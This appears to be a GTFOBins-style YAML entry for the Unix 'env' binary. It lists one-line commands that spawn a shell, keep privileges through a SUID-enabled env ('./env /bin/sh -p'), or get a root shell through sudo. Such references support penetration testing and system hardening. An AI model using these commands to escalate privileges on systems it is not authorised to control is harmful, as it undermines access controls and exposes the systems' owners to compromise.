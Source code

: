 ```yaml
---
functions:
  execute-interactive:
    - code: env /bin/sh
  suid-enabled:
    - code: ./env /bin/sh -p
  sudo-enabled:
    - code: sudo env /bin/sh
---
```

